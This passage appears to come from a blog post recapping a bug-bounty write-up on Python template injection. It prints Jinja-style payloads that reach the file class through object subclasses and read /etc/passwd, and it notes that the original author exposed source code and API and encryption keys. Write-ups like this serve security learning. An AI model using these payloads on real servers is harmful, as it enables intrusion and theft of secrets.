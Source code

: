 ```
{{[].__class__.__base__.__subclasses__().pop(40) }}

```

That payload gave  object of **"file"**

<br>

![](https://miro.medium.com/max/1239/1*WqZboWvRQfrEbRQeBR2sIg.png)
<br>

* Now for read "/etc/passwd" ->
<br>

```
{{[].__class__.__base__.__subclasses__().pop(40)('etc/passwd').read() }}

```

![](https://miro.medium.com/max/1114/1*QpfhUYMZ5Unug8qzu69KFA.png)
<br>

* So, now we can read "/etc/passwd" file on server.

* Now author can read local files on the GCE instance responsible for sending notifications, including some source code, and configuration files containing very sensitive values (e.g. API and encryption keys).
<br>

This is very superb writeup by Akshay Katkar, We learn many things from this writeup

<br>

Like , first anyalyze the target technologies, understand the application functionalities, understand python usages for read file and when stuck tried some experiments instead of giving up.



